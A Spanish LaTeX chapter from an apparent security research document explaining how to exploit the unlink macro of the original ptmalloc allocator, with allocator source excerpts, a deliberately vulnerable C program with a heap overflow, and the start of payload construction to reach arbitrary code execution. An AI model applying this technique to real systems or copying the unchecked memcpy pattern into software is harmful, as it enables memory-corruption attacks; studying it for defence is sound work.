\section{Explotando el algoritmo ptmalloc}

Tal y como se ha explicado en el apartado \ref{sec:heap_theory_introduccion}, la gesti�n de memoria din�mica utilizada en sistemas GNU/Linux est� implementada por el algoritmo llamado \textit{ptmalloc} desarrollador por Wolfram Gloger, que es una evoluci�n de una implementaci�n anterior llamada \textit{dlmalloc} desarrollada por Doug Lea. \\
Actualmente, la gesti�n de memoria din�mica implementada en la librer�a \textit{glibc} est� basada en el algoritmo \textit{ptmalloc}, sin embargo, la implementaci�n en la \textit{glibc} contiene ciertas modificaciones que, en la mayor�a de los casos, est�n enfocadas a realizar una gesti�n de memoria de un modo m�s seguro. \bigskip

Debido a esto, en este apartado se detallar� c�mo explotar el algoritmo original sin las mejoras a�adidas en la \textit{glibc}. De este modo se podr� detallar el proceso a seguir a un nivel b�sico de modo que el lector pueda desarrollar unos buenos fundamentos con los que proseguir con el estudio de la explotaci�n del heap en cualquier arquitectura diferente a la tratada en esta investigaci�n. \bigskip

Cabe destacar que aunque no se estudie la implementaci�n del algoritmo de la \textit{glibc}, no se han encontrado investigaciones que detallen c�mo explotar el algoritmo \textit{ptmalloc}. Todas las referencias bibliogr�ficas sobre el tema han sido de excepcional ayuda, sin embargo, ninguna de ellas permite, a partir los detalles proporcionados, la ejecuci�n de c�digo arbitrario mediante la explotaci�n del algoritmo. \\
Debido a la evoluci�n del algoritmo, las t�cnicas retratadas en dichas investigaciones han quedado obsoletas mientras que lo que se detalla en esta investigaci�n permite la ejecuci�n de c�digo arbitrario siguiendo vectores de ataque diferentes a los expuestos en dichas investigaciones.\bigskip

Lo primero que se debe realizar para continuar es descargar la implementaci�n original del algoritmo \textit{ptmalloc} para que los c�digos que se desarrollaran a continuaci�n utilicen sus funciones en vez de utilizar las funciones que vienen implementadas en la \textit{glibc}. Todo este proceso est� detallado en el Ap�ndice \ref{ap:I}.\\
De ahora en adelante y hasta que se especifique lo contrario, todos los c�digos y numeraci�n de l�neas del c�digo fuente est�n en referencia al c�digo fuente del algoritmo original \textit{ptmalloc}, el especificado en el Ap�ndice \ref{ap:I}.

\pagebreak

\subsection{Teor�a sobre la macro unlink}

La vulnerabilidad que se va a estudiar en estos cap�tulos pasa por la macro \textit{unlink}.\\
Dicha macro se utiliza cuando se libera un fragmento de memoria que est� en uso. Siendo aun m�s espec�ficos, la macro unlink se ejecuta cuando se libera un fragmento de memoria que est� en uso y cuando el fragmento de memoria anterior o siguiente est� libre. De este modo se consigue, tal y como se ha explicado en la p�gina \pageref{par:adjacent_chunks}, que diferentes fragmentos de memoria libres adyacentes se consoliden en un solo fragmento de memoria libre mayor. \bigskip

La macro unlink est� definida en el archivo malloc.c en la l�nea 1975 del siguiente modo:

\lstset{language=C, caption=Macro unlink (malloc.c:1975), label=code:unlink_macro}
\begin{lstlisting}
/* Take a chunk off a bin list */
#define unlink(P, BK, FD) {     \
  FD = P->fd;                   \
  BK = P->bk;                   \
  FD->bk = BK;                  \
  BK->fd = FD;                  \
}
\end{lstlisting}

Lo primero a tener en cuenta antes de proseguir es que los fragmentos de memoria del algoritmo original \textit{ptmalloc} no son iguales a los fragmentos de memoria estudiados en el apartado anterior. A diferencia de los fragmentos de memoria implementados en la \textit{glibc}, en el algoritmo que estudiamos no existen los �ltimos dos campos detallados para un fragmento de memoria libre. Los campos que hacen de punteros al fragmento anterior y siguiente de mayor tama�o no existen. Por esta raz�n la macro unlink no hace ninguna gesti�n con ellos, simplemente trabaja con el puntero al siguiente fragmento libre [|P->fd|] y el puntero al fragmento libre anterior [|P->bk|]. \bigskip

Un fragmento de memoria est� definido tal que as�\footnote{Los comentarios en el c�digo se han movido de lugar debido a cuestiones de formato del documento.}:

\lstset{language=C, caption=malloc\_chunk (malloc.c:1682), label=code:malloc_chunk_ptmalloc}
\begin{lstlisting}
struct malloc_chunk {
  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      prev_size; 
  /* Size in bytes, including overhead. */
  INTERNAL_SIZE_T      size;      

  /* double links -- used only if free. */
  struct malloc_chunk* fd;        
  struct malloc_chunk* bk;
};
\end{lstlisting}

B�sicamente la vulnerabilidad que se estudiar� a continuaci�n se da debido a que los datos de control que permiten gestionar los fragmentos de memoria son adyacentes a los datos del usuario. Si existieran dos fragmentos de memoria en uso, se estructurar�an en memoria tal y como se muestra en la figura \ref{fig:two_allocated_chunks}. \bigskip

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=.8]{./Chapters/HeapExploiting/Unlink/img/two_allocated_chunks.eps}   
    \caption{Dos fragmentos de memoria en uso}
    \label{fig:two_allocated_chunks}
\end{figure}

Si en el c�digo fuente de un usuario de esta librer�a existiera un \textit{buffer overflow} de modo que se desbordaran los datos que se almacenan en el primer fragmento de memoria, se podr�an sobrescribir los datos de control \textit{prev\_size} y \textit{size} de modo que una vez el algoritmo los utilizara obtendr�a unos valores incorrectos.\bigskip

As� pues, es esta capacidad de sobrescribir los datos inherentes al algoritmo lo que propicia que un atacante pueda ser capaz de ejecutar c�digo arbitrario. \bigskip

La macro \textit{unlink} se utiliza cuando al liberarse un fragmento de memoria en uso, existe al menos otro fragmento de memoria libre que es adyacente al fragmento de memoria a liberar [malloc.c:4244]. De este modo, el algoritmo junta - o consolida - lo que ser�n dos - o tres - fragmentos de memoria libres en un solo fragmento de memoria libre mayor. Gracias a esto se evita una mayor fragmentaci�n interna de los fragmentos de memoria libres. \\
Si el fragmento libre es anterior al que se va a liberar, esta operaci�n se conoce como \textit{consolidate backward}, si el fragmento libre es el siguiente al que se va a liberar se conoce como \textit{consolidate forward}. \bigskip

Espec�ficamente, la macro \textit{unlink} sirve para desenlazar un fragmento de memoria libre de la lista doblemente enlazada de fragmentos de memoria libres que se detall� en la p�gina \pageref{par:bins}. La l�gica del algoritmo es simple, si existe alg�n tipo de consolidaci�n, ya sea \textit{backward} o \textit{forward}, el fragmento de memoria que ya estaba libre se elimina de la lista de \textit{bins} y se fusiona\footnote{Una fusi�n entre dos fragmentos de memoria libre, b�sicamente, se consigue a trav�s de modificar el campo \textit{size} del fragmento.} con el fragmento de memoria que se acaba de liberar. Una vez se ha realizado dicha fusi�n, el fragmento de memoria libre resultante se vuelve a a�adir a la lista de \textit{bins}\footnote{Cabe destacar que el nuevo fragmento de memoria se a�adir� a un conjunto de \textit{bins} denominado \textit{unsorted chunks}. Esto se debe a cuestiones de optimizaci�n ajenas al tema que nos concierne.}, en su debida posici�n debido al nuevo tama�o del fragmento. \bigskip

A continuaci�n se representa un caso en particular para acabar de definir gr�ficamente el proceso de desenlace realizado por \textit{unlink}. \bigskip

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=.8]{./Chapters/HeapExploiting/Unlink/img/initial_eight_chunks.eps}   
    \caption{Estado anterior a unlink}
    \label{fig:initial_eight_chunks}
\end{figure}

En la Figura \ref{fig:initial_eight_chunks} se representan ocho fragmentos de memoria que son contiguos entre ellos f�sicamente. Este ejemplo se ha representado con ocho fragmentos de memoria para intentar representar lo que podr�a ser un caso real donde la macro \textit{unlink} se ejecutara. Evidentemente, aquellos fragmentos que contienen el campo |bk| y el campo |fd| son fragmentos de memoria libres, mientras que los dem�s son fragmentos de memoria en uso. Como se puede apreciar, en el estado inicial no existen dos fragmentos de memoria libres contiguos ya que tal y como se ha comentado anteriormente - y se detallar� posteriormente - dos fragmentos de memoria libres contiguos se fusionan entre ellos. Los punteros |bk| y |fd| apuntan al anterior y al siguiente fragmento de memoria libre respectivamente tal y como se ejemplifica con las flechas. \bigskip

En este caso el fragmento n�mero 4 es que el que se quiere liberar mediante una llamada a |free()|. Tal y como se ve, el fragmento de memoria previo a 4 no est� en uso, est� libre. Es en este caso cuando el algoritmo ejecuta la macro \textit{unlink} [malloc:4244]. Para saber si el fragmento anterior a 4 est� libre, el algoritmo ejecuta la macro |prev_inuse()| que simplemente comprueba si el campo |SIZE| del fragmento 4 tiene el bit |PREV_INUSE| a 1. Si dicho bit est� a 0 significa que el fragmento anterior a 4 est� libre, entonces se busca en qu� direcci�n de memoria se encuentra el fragmento anterior a partir de la macro |chunk_at_offset()| que utilizando el campo |PREV_SIZE| del fragmento actual a liberar es capaz de obtener la direcci�n inicial del fragmento anterior - rest�ndole al puntero del fragmento actual el valor de su campo |PREV_SIZE| -. Una vez se conoce cual es la direcci�n de memoria del fragmento anterior a 4, se puede ejecutar la macro \textit{unlink} sobre �l. \bigskip

La macro \textit{unlink} se encarga de desenlazar de la lista de fragmentos libres el fragmento sobre el que act�a, o sea que a efectos pr�cticos, se encarga de que ning�n fragmento de memoria libre apunte al fragmento de memoria desenlazado. As� pues, los punteros |fd| y |bk| de los fragmentos libres que apuntan al fragmento sobre el que act�a \textit{unlink} - representados por las l�neas discontinuas - ser�n modificados para que apunten a otros fragmentos de memoria. \bigskip

Analizando l�nea a l�nea la macro \textit{unlink} se podr� ver c�mo la estructura final de los fragmentos de memoria ser� la representada en la Figura \ref{fig:final_eight_chunks}. \bigskip

\lstset{language=C, caption=Macro unlink. L�neas 1 y 2 , label=code:unlink_macro_l1_l2}
\begin{lstlisting}
  FD = P->fd;                   \
  BK = P->bk;                   \
\end{lstlisting}

En el C�digo \ref{code:unlink_macro_l1_l2} con la l�nea 1, en |FD| se almacena la direcci�n del fragmento 6 que es el siguiente fragmento libre de 4. En BK se almacena la direcci�n del fragmento 1. \bigskip

\lstset{language=C, caption=Macro unlink. L�nea 3 , label=code:unlink_macro_l3}
\begin{lstlisting}
  FD->bk = BK;                  \
\end{lstlisting}

A continuaci�n, en la l�nea 1 del C�digo \ref{code:unlink_macro_l3} se hace que en el campo |bk| del fragmento 6 (|FD|) se almacene la direcci�n de memoria donde se ubica el fragmento 1 (|BK|). \bigskip

\lstset{language=C, caption=Macro unlink. L�nea 4 , label=code:unlink_macro_l4}
\begin{lstlisting}
  BK->fd = FD;                  \
\end{lstlisting}

Por �ltimo, en la l�nea 1 del C�digo \ref{code:unlink_macro_l4} se hace que en el campo |fd| del fragmento 1 (|BK|) se almacene la direcci�n de memoria donde se ubica el fragmento 6 (|FD|). \bigskip

De este modo los punteros |fd| y |bk| de los fragmentos 1 y 6 respectivamente, que anteriormente apuntaban al fragmento 3 han dejado de apuntar a dicho fragmento y ahora apuntan al fragmento 6 y 1 respectivamente. Finalmente, el fragmento 3 se ha desenlazado de la lista de fragmentos libres mediante \textit{unlink}.\\
Cabe destacar que despu�s de que esto ocurra, el fragmento 3 y 4 que ahora son dos fragmentos libres contiguos se consolidan en un solo fragmento libre [malloc.c:4281] de modo que se pierde cualquier referencia a lo que anteriormente era el fragmento 4. Adem�s, este nuevo fragmento [3] tambi�n se a�ade a una lista de fragmentos libres llamada \textit{unsorted\_chunks} [malloc:4274]. \\
El resultado final de esta operaci�n se puede apreciar en la Figura \ref{fig:final_eight_chunks}. \bigskip

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=.8]{./Chapters/HeapExploiting/Unlink/img/final_eight_chunks.eps}   
    \caption{Estado posterior a unlink}
    \label{fig:final_eight_chunks}
\end{figure}

Por �ltimo, para no s�lo tratar con un caso complejo de \textit{unlink}, la Figura \ref{fig:basic_unlink} muestra la funcionalidad b�sica de \textit{unlink} dados tres fragmentos de memoria libres dentro de la lista doblemente enlazada de \textit{bins}. \bigskip

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=.6]{./Chapters/HeapExploiting/Unlink/img/basic_unlink.eps}   
    \caption{Unlink b�sico}
    \label{fig:basic_unlink}
\end{figure}

\pagebreak

\subsection{Vector de ataque}
\label{sec:attack_vector}

Partiendo de la definici�n de un fragmento de memoria |malloc_chunk| tal y como se define en el C�digo \ref{code:malloc_chunk_def}: \bigskip

\lstset{language=C, caption=Definici�n de un fragmento de memoria , label=code:malloc_chunk_def}
\begin{lstlisting}
struct malloc_chunk {

  INTERNAL_SIZE_T      prev_size;
  INTERNAL_SIZE_T      size;       

  struct malloc_chunk* fd;   
  struct malloc_chunk* bk;
};
\end{lstlisting}

Se deduce que instanciando un puntero |p| de tipo |malloc_chunk|, las direcciones equivalentes para acceder a cada uno de sus elementos son las siguientes: \bigskip

\lstset{language=C, caption=Equivalencias entre punteros , label=code:malloc_chunk_eq}
\begin{lstlisting}
p->prevsize    equivale a    *p + 0  bytes
p->size        equivale a    *p + 4  bytes
p->fd          equivale a    *p + 8  bytes
p->bk          equivale a    *p + 12 bytes
\end{lstlisting}

El C�digo \ref{code:malloc_chunk_eq} significa, por ejemplo, que para acceder al valor del campo |fd| se debe obtener la direcci�n donde apunta el puntero |p| y sumarle 8 bytes. Si |p| apuntara a la direcci�n 0x8111110, el campo |fd| estar�a situado en la direcci�n 0x8111118.\\
Una vez aclarado lo anterior, uno podr�a analizar cual es el comportamiento de la macro \textit{unlink} a nivel de punteros: \bigskip

\lstset{language=C, caption=Unlink a nivel de punteros , label=code:unlink_pointer_level}
\begin{lstlisting}
FD = P->fd;   equivale a    FD = *P + 8
BK = P->bk;   equivale a    BK = *P + 12
FD->bk = BK;  equivale a    FD + 12 = BK
BK->fd = FD;  equivale a    BK + 8 = FD
\end{lstlisting}

Suponiendo que |FD| y |BK| son punteros en C, con la l�nea 1 se obtendr�a que |FD| apunta al contenido de la direcci�n del fragmento de memoria |p| m�s 8 bytes, o sea, a la direcci�n que contiene del campo |fd| del fragmento de memoria (|p->fd|). La segunda l�nea es an�loga a la primera. \\
La l�nea n�mero 3, la m�s relevante de todas, realiza una escritura en memoria. La parte izquierda del operando significa que al contenido de la direcci�n de memoria |*p| + 8 se le suman 12 bytes. Esto significa que si la direcci�n de memoria ubicada en |*p| + 8 es 0x8000000, pasar� a ser 0x800000c\footnote{Dicha suma no ser� permanente sino que simplemente se utiliza para llevar a cabo la asignaci�n de la parte derecha del operando.}. Con la parte derecha del operando se establece que en dicha direcci�n de memoria (en el ejemplo, 0x800000c) se escribir� el contenido de la direcci�n de memoria |*p| + 12, o sea, en |p->bk|.
\paragraph*{}\label{ref:shellcode_overwrite}
Por �ltimo, con la cuarta l�nea tambi�n se realiza una escritura en memoria, sin embargo, esta escritura es una molestia que se deber� solventar. An�logamente a la l�nea 3, al contenido de |*p + 12| se le suma 8, con lo que si en |*p + 12| hab�a un 0x8000000, se obtendr� un 0x8000008. Acto seguido, en esa direcci�n de memoria (en el ejemplo, 0x8000008) se almacenar� el contenido de la direcci�n de memoria |*p + 8|, o sea, el contenido de |p->fd|. \bigskip

Entonces, �cu�l es el vector de ataque? El vector de ataque del que se aprovecha esta t�cnica es la escritura en memoria que se realiza en la l�nea 3. \\
Realizando una construcci�n l�gica hacia atr�s se analiza dicha escritura. Lo primero es que lo que se escribe en memoria es |BK|, que no es m�s que el contenido de la direcci�n de memoria de *p + 12, que haci�ndolo aun m�s abstracto es el contenido del campo |bk| del fragmento de memoria que se pasa a \textit{unlink}, o sea, el contenido de |p->bk|. \\
Lo siguiente a analizar es d�nde se escribe. B�sicamente, se escribe en la direcci�n de memoria m�s 12 ubicada en |FD| que es *p + 8 y, de nuevo, haci�ndolo m�s abstracto, es el contenido del campo |fd| del fragmento de memoria que se le pasa a \textit{unlink}, o sea, |p->fd|. \bigskip

Resumiendo: 
\begin{itemize}
\item Qu� se escribe en memoria? $\longrightarrow$ El contenido de |p->bk|
\item En qu� direcci�n de memoria se escribe? $\longrightarrow$ En la direcci�n contenida en |p->fd| + 12 bytes.
\end{itemize}
\paragraph*{}\label{ref:first_question}
Llegados a este punto uno debe plantearse dos cosas. La primera de ellas es si, como usuario de la librer�a, es posible controlar el contenido de los campos |bk| y |fd| de un framento de memoria libre. La segunda es si, de ser posible lo anterior, cuales ser�an las repercusiones.\\
A la primera pregunta se le dar� respuesta en los pr�ximos apartados, sin embargo, se avanza al lector que, cumpli�ndose ciertos requisitos, s� es posible controlar el valor de dichos campos. \\
En cuanto a la segunda cuesti�n, las repercusiones dependen de las posibilidades. Es de sobra conocido que si un \textit{hacker} tiene la posibilidad de escribir 4 bytes en cualquier direcci�n de memoria, ser� capaz de ejecutar c�digo arbitrario\footnote{Dadas las condiciones de sistema que se especifican en esta investigaci�n.}. Lo que como repercusi�n, es una consecuencia nefasta para el sistema afectado. \\
Si el lector no conoce las t�cnicas por las cuales se puede conseguir la ejecuci�n de c�digo arbitrario a partir de la escritura de 4 bytes en cierta direcci�n de memoria, se le encomienda leer el Ap�ndice \ref{ap:II}.

\pagebreak

\subsection{Explotaci�n pr�ctica}

En este apartado se tratar� la metodolog�a para conseguir escribir 4 bytes en cualquier direcci�n de memoria, lo que, eventualmente, desembocar� en la ejecuci�n de c�digo arbitrario tal y como se muestra en el Ap�ndice \ref{ap:II}, mediante la sobrescritura de la secci�n .dtors. \bigskip

El C�digo \ref{code:vulnerable_code} muestra el c�digo vulnerable mediante el cual es posible controlar el contenido de los campos |bk| y |fd| de un fragmento de memoria libre, tal y como se planteaba en la p�gina \pageref{ref:first_question}. \bigskip

\lstset{language=C, caption=C�digo vulnerable , label=code:vulnerable_code}
\begin{lstlisting}
#include <stdlib.h>
#include <string.h>

int main (int argc, char ** argv) {

        if (argc < 2)
                return -1;

        char * ptr_1 = (char *) malloc (512);
        char * ptr_2 = (char *) malloc (512);

        memcpy(ptr_1, argv[1], strlen(argv[1]));

        free(ptr_1);
        free(ptr_2);

        return 0;
}
\end{lstlisting}

Con las l�neas 5 y 6 se crean dos b�fers de datos de un tama�o de 512 bytes. Estos b�fers se almacenar�n en el \textit{heap} debido a que se piden al sistema mediante la funci�n |malloc()|.\\
A continuaci�n, en la l�nea 8 los datos que se pasan como argumento al programa se copian en el b�fer |ptr_1|. La vulnerabilidad viene dada por el hecho de que si el tama�o del argumento pasado al programa es mayor a 512 bytes, se producir� un \textit{overflow} o desbordamiento del b�fer, con lo que posiblemente se sobrescribir�n otros b�fers almacenados en el \textit{heap} o datos de control utilizados por el algoritmo de gesti�n de memoria din�mica. \\
As� pues, el requisito para poder sobrescribir el valor de los campos |bk| y |fd| pasa por que el desarrollador cometa un error que desemboque en un desbordamiento de b�fer. \bigskip

Una vez se haya desbordado el b�fer y se hayan sobrescrito ciertos datos, se ejecutar� la macro \textit{unlink} mediante la liberaci�n de dichos b�fers - l�neas 10 y 11 - y se conseguir� la ejecuci�n de c�digo arbitrario.

\subsubsection{Construcci�n del payload}

El \textit{payload} es el conjunto de datos o bytes con el cual ser� posible vulnerar el algoritmo \textit{ptmalloc}. Este \textit{payload} se almacenar� en el primer b�fer, |ptr_1|, y debido a que su tama�o ser� mayor a 512 bytes, sobrescribir� la regi�n de memoria donde se ubica el segundo b�fer, |ptr_2|. Evidentemente, se supone que |ptr_1| y |ptr_2| se almacenan de manera contigua en memoria y dado que en el C�digo \ref{code:vulnerable_code} se pide espacio para |ptr_1| y acto seguido para |ptr_2| sin que haya ninguna otra petici�n de espacio de por medio, ni ning�n fragmento de memoria libre disponible, los dos b�fers se almacenar�n de modo adyacente.

\begin{center}
\fbox{
\begin{minipage}[b][\height]{0.95\textwidth}
La idea en la que se basa la explotaci�n de esta vulnerabilidad pasa por hacer creer al algoritmo que el primer b�fer a liberar es adyacente a otro fragmento de memoria libre. Si esto es as�, la macro \textit{unlink} se ejecutar� con lo que ser� posible escribir 4 bytes en cualquier regi�n de memoria.
\end{minipage}
}
\end{center}

La parte vulnerable del c�digo fuente es la que se representa en el C�digo \ref{code:ptmalloc_vulnerable} \bigskip

\lstset{language=C, caption=C�digo \textit{ptmalloc} vulnerable , label=code:ptmalloc_vulnerable}
\begin{lstlisting}
(...)

else if (!chunk_is_mmapped(p)) {
      nextchunk = chunk_at_offset(p, size);
      nextsize = chunksize(nextchunk);
      assert(nextsize > 0);

      /* consolidate backward */
      if (!prev_inuse(p)) {
        prevsize = p->prev_size;
        size += prevsize;
        p = chunk_at_offset(p, -((long) prevsize));
        unlink(p, bck, fwd);
      }

      if (nextchunk != av->top) {
        /* get and clear inuse bit */
        nextinuse = inuse_bit_at_offset(nextchunk, nextsize);

        /* consolidate forward */
        if (!nextinuse) {
          unlink(nextchunk, bck, fwd);
          size += nextsize;
        } else
          clear_inuse_bit_at_offset(nextchunk, 0);
(...)
\end{lstlisting}

Aclarar que para que el C�digo \ref{code:ptmalloc_vulnerable} se ejecute, se debe ejecutar la funci�n |free()| del programa vulnerable. Todo el razonamiento seguido a continuaci�n, se basa en que se ejecuta la funci�n |free()| sobre el primer b�fer, |ptr_1|. \bigskip

Tal y como se ha comentado, se debe enga�ar al algoritmo para que entre en la condici�n de la l�nea 21 aun cuando el siguiente fragmento de memoria al que se est� liberando est� en uso. Para enga�ar al algoritmo, se debe estudiar c�mo se decide si el siguiente fragmento de memoria libre al que se est� liberando est� libre o, en caso contrario, est� en uso. \\
La macro que se encarga de definir si un fragmento de memoria est� en uso o est� libre es la siguiente: \bigskip

\lstset{language=C, caption=Macro inuse\_bit\_at\_offset() , label=code:inuse_bit_at_offset_macro}
\begin{lstlisting}
#define inuse_bit_at_offset(p, s)\
 (((mchunkptr)(((char*)(p)) + (s)))->size & PREV_INUSE)
\end{lstlisting}

A la macro |inuse_bit_at_offset| se le pasa un puntero |p|. A este puntero se le a�ade un offset |s|. Despu�s de realizar esta acci�n, la direcci�n de memoria |p+s| debe coincidir con un fragmento de memoria. Se obtiene el campo |size| de dicho fragmento y se le realiza una |and| l�gica con el valor |PREV_INUSE| que es 1. Con lo que si el �ltimo bit del campo |size| de un fragmento de memoria es 1, el fragmento de memoria est� en uso, si es 0, el fragmento est� libre. \\
Volviendo al C�digo \ref{code:ptmalloc_vulnerable}, en la l�nea 18 se ejecuta la macro |inuse_bit_at_offset|, sin embargo como par�metros se le pasan las variables |nextchunk| y |nextsize|. Dichas variables se inicializan en las l�neas 4 y 5 respectivamente. \\
La macro |chunk_at_offset()| est� definida del siguiente modo: \bigskip

\lstset{language=C, caption=Macro chunk\_at\_offset() , label=code:chunk_at_offset_macro}
\begin{lstlisting}
/* Treat space at ptr + offset as a chunk */
#define chunk_at_offset(p, s)  ((mchunkptr)(((char*)(p)) + (s)))
\end{lstlisting}

Con lo que si a la macro se le pasa el puntero |p|, que apunta al primer fragmento a liberar y un tama�o |size| que es el tama�o del propio fragmento a liberar, devolver� un puntero al siguiente fragmento en memoria contiguo al que se va a liberar. En el caso de estudio, si |p| apunta al fragmento de memoria que almacena los datos de |ptr_1|, el siguiente fragmento de memoria es |ptr_2|. De este modo se obtiene la variable |nextchunk| en la l�nea 4 del C�digo \ref{code:ptmalloc_vulnerable}. \\
Por otro lado, la variable |nextsize| se inicializa a partir de la macro |chunksize()| a la que se le pasa como par�metro la variable |nextchunk|. Dicha macro definida en el C�digo \ref{code:chunksize_macro} obtiene el campo |size| del fragmento de memoria que se le pasa. Evidentemente, al campo |size| se le eliminan los 3 bits de menor peso que sirven como metadatos. En el caso de estudio, se obtiene el tama�o del siguiente fragmento de memoria al fragmento a liberar, o sea, el fragmento de memoria que contiene los datos de |ptr_2|.\bigskip

\lstset{language=C, caption=Macro chunksize() , label=code:chunksize_macro}
\begin{lstlisting}
/* Get size, ignoring use bits */
#define chunksize(p)         ((p)->size & ~(SIZE_BITS))
\end{lstlisting}

Se ha seguido todo este razonamiento para que el lector no tenga que creer ciegamente lo que aqu� est� escrito, sino que pueda comprobar el razonamiento a partir del c�digo expuesto. \\
La primera conclusi�n a la que se llega pues, es que el campo |size| del fragmento de memoria contiguo al fragmento de memoria que se esta liberando debe tener el bit menos significativo a 0, de este modo se entrar� a la condici�n de la l�nea 21 del C�digo \ref{code:ptmalloc_vulnerable}. \bigskip

�Pero c�mo se puede conseguir esto? A trav�s del desbordamiento del que se ha hablado anteriormente. Si el b�fer |ptr_1| tiene un tama�o de 512 bytes, si en �l se escriben m�s de esos bytes, los datos acabar�n sobreescribiendo el b�fer |ptr_2| y a partir de esto y partiendo de la base de que los datos del primer b�fer los puede controlar el usuario, es posible escribir en el campo |size| un valor que contenga su bit de menor peso a 0, con lo que se ejecute la macro \textit{unlink} de la l�nea 22 del C�digo \ref{code:ptmalloc_vulnerable}. \bigskip

